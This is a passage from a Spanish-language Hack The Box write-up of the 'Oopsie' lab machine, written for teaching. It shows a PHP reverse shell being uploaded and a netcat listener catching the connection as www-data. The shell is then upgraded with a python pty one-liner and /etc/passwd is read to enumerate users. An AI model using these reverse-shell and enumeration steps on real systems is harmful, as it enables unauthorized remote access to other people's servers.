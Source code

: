 Intento subir la reverse a la web y nos dice que se ha subido correctamente

![](/assets/images/htb-writeup-oopsie/13.png)


Voy a configurar una conexión netcat y voy a intentar obtener la reverse entrando en `tu-ip/uploads/php-reverse-shell.php`. <span style="color:LightGray; font-style:italic; font-size: smaller;">(Aparece la IP <strong>10.129.137.240</strong> y no la <strong>10.129.143.218</strong> al conectarse porque se me reseteó)</span>.



```bash 
┌──(oso㉿kali)-[~/…/htb/starting-point/oopsie/www]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.169] from (UNKNOWN) [10.129.137.240] 44898
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 18:56:38 up 3 min,  0 users,  load average: 0.12, 0.17, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```


Para que se vea bien y tener una Shell funcional voy a usar lo siguiente: 
```bash 
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```
Y ahora aparecerá así:
``` bash 
www-data@oopsie:/$ 
```

Toqueteando un poco, encuentro que hay un user llamado "robert".
```bash 
www-data@oopsie:/$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
```